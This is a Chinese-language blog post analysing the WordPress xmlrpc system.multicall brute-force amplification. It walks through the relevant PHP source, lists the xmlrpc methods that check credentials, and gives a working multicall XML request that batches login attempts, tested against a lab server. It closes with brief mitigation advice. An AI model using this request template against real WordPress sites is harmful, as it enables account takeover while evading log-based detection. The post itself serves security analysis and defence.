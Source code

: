 ```yaml
---
layout: post
title: "WordPress 利用xmlrpc中的system.multicall接口进行快速爆破"
tags: [security, web]
---
```


xmlrpc 是 WordPress 中进行远程调用的接口，而使用 xmlrpc 调用接口进行账号爆破在很早之前就被提出并加以利用。近日 [SUCURI](https://blog.sucuri.net/2015/10/brute-force-amplification-attacks-against-wordpress-xmlrpc.html) 发布文章介绍了利用 xmlrpc 调用接口中的 `system.multicall` 来提高爆破效率，使得成千上万次的帐号密码组合尝试能在一次请求完成，在一定程度上能够躲避日志的检测。

WordPress 中关于 xmlrpc 服务的定义代码主要位于 `wp-includes/class-IXR.php` 和 `wp-includes/class-wp-xmlrpc-server.php` 中。基类 IXR_Server 中定义了三个内置的调用方法，分别为 `system.getCapabilities`，`system.listMethods` 和 `system.multicall`，其调用映射位于 `IXR_Server` 基类定义中：

{% highlight php %}
function setCallbacks()
{
    $this->callbacks['system.getCapabilities'] = 'this:getCapabilities';
    $this->callbacks['system.listMethods'] = 'this:listMethods';
    $this->callbacks['system.multicall'] = 'this:multiCall';
}
{% endhighlight %}

而基类在初始化时，调用 setCallbacks() 绑定了调用映射关系：

{% highlight php %}
function __construct( $callbacks = false, $data = false, $wait = false )
{
    $this->setCapabilities();
    if ($callbacks) {
        $this->callbacks = $callbacks;
    }
    $this->setCallbacks();  // 绑定默认的三个基本调用映射
    if (!$wait) {
        $this->serve($data);
    }
}
{% endhighlight %}

再来看看 `system.multicall` 对应的处理函数：

{% highlight php %}
function multiCall($methodcalls)
{
    // See http://www.xmlrpc.com/discuss/msgReader$1208
    $return = array();
    foreach ($methodcalls as $call) {
        $method = $call['methodName'];
        $params = $call['params'];
        if ($method == 'system.multicall') {
            $result = new IXR_Error(-32600, 'Recursive calls to system.multicall are forbidden');
        } else {
            $result = $this->call($method, $params);
        }
        if (is_a($result, 'IXR_Error')) {
            $return[] = array(
                'faultCode' => $result->code,
                'faultString' => $result->message
            );
        } else {
            $return[] = array($result);
        }
    }
    return $return;
}
{% endhighlight %}

可以从代码中看出，程序会解析请求传递的 XML，遍历多重调用中的每一个接口调用请求，并会将最终有调用的结果合在一起返回给请求端。

这样一来，就可以将500种甚至是10000种帐号密码爆破尝试包含在一次请求中，服务端会很快处理完并返回结果，这样极大地提高了爆破的效率，利用多重调用接口压缩了请求次数，10000种帐号密码尝试只会在目标服务器上留下一条访问日志，一定程度上躲避了日志的安全检测。

通过阅读 WordPress 中 xmlrpc 相关处理的代码，能大量的 xmlrpc 调用都验证了用户名和密码：

{% highlight php %}
    if ( !$user = $this->login($username, $password) )
        return $this->error;
{% endhighlight %}

通过搜索上述登录验证代码可以得到所有能够用来进行爆破的调用方法列表如下： 

    wp.getUsersBlogs, wp.newPost, wp.editPost, 
    wp.deletePost, wp.getPost, wp.getPosts, 
    wp.newTerm, wp.editTerm, wp.deleteTerm, 
    wp.getTerm, wp.getTerms, wp.getTaxonomy, 
    wp.getTaxonomies, wp.getUser, wp.getUsers, 
    wp.getProfile, wp.editProfile, wp.getPage, 
    wp.getPages, wp.newPage, wp.deletePage, 
    wp.editPage, wp.getPageList, wp.getAuthors, 
    wp.getTags, wp.newCategory, wp.deleteCategory, 
    wp.suggestCategories, wp.getComment, wp.getComments, 
    wp.deleteComment, wp.editComment, wp.newComment, 
    wp.getCommentStatusList, wp.getCommentCount, wp.getPostStatusList, 
    wp.getPageStatusList, wp.getPageTemplates, wp.getOptions, 
    wp.setOptions, wp.getMediaItem, wp.getMediaLibrary, 
    wp.getPostFormats, wp.getPostType, wp.getPostTypes, 
    wp.getRevisions, wp.restoreRevision, blogger.getUsersBlogs, 
    blogger.getUserInfo, blogger.getPost, blogger.getRecentPosts, 
    blogger.newPost, blogger.editPost, blogger.deletePost, 
    mw.newPost, mw.editPost, mw.getPost, 
    mw.getRecentPosts, mw.getCategories, mw.newMediaObject, 
    mt.getRecentPostTitles, mt.getPostCategories, mt.setPostCategories
    
这里是用参数传递最少获取信息最直接的 `wp.getUsersBlogs` 进行测试，将两次帐号密码尝试包含在同一次请求里，构造 XML 请求内容为：

{% highlight xml %}
<methodCall>
  <methodName>system.multicall</methodName>
  <params><param>
    <value><array><data>

      <value><struct>
        <member>
          <name>methodName</name>
          <value><string>wp.getUsersBlogs</string></value>
        </member>
        <member>
          <name>params</name>
          <value><array><data>
            <value><string>admin</string></value>
            <value><string>admin888</string></value>
          </data></array></value>
        </member>
      </struct></value>

      <value><struct>
        <member>
          <name>methodName</name>
          <value><string>wp.getUsersBlogs</string></value>
        </member>
        <member>
          <name>params</name>
          <value><array><data>
            <value><string>guest</string></value>
            <value><string>test</string></value>
          </data></array></value>
        </member>
      </struct></value>

    </data></array></value>
  </param></params>
</methodCall>
{% endhighlight %}

将上面包含两个子调用的 XML 请求发送至 xmlrpc 服务端入口，若目标开启了 xmlrpc 服务会返回类似如下的信息：

{% highlight xml %}
<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
      <array><data>
  <value><array><data>
  <value><array><data>
  <value><struct>
  <member><name>isAdmin</name><value><boolean>1</boolean></value></member>
  <member><name>url</name><value><string>http://172.16.96.130/xampp/wordpress-4.3.1/</string></value></member>
  <member><name>blogid</name><value><string>1</string></value></member>
  <member><name>blogName</name><value><string>WordPress 4.3.1</string></value></member>
  <member><name>xmlrpc</name><value><string>http://172.16.96.130/xampp/wordpress-4.3.1/xmlrpc.php</string></value></member>
</struct></value>
</data></array></value>
</data></array></value>
  <value><struct>
  <member><name>faultCode</name><value><int>403</int></value></member>
  <member><name>faultString</name><value><string>用户名或密码不正确。</string></value></member>
</struct></value>
</data></array>
      </value>
    </param>
  </params>
</methodResponse>
{% endhighlight %}

从结果中可以看到在同一次请求里面处理了两种帐号密码组合，并以集中形式将结果返回，通过该种方式可以极大地提高帐号爆破效率。

当然了，这里不仅要讨论如何进行攻击还要考虑如何去防御这种情况。最直接的方式就是直接关闭 xmlrpc 功能（当然了也可以直接删除xmlrpc.php文件），但是 WordPress 并没有在后台提供关闭 xmlrpc 的功能，但是站长用户可以通过插件或者编码的方式来禁用。(插件可以使用 [Disable XML-RPC](https://wordpress.org/plugins/disable-xml-rpc/)）

### 参考链接

* [https://blog.sucuri.net/2015/10/brute-force-amplification-attacks-against-wordpress-xmlrpc.html](https://blog.sucuri.net/2015/10/brute-force-amplification-attacks-against-wordpress-xmlrpc.html)

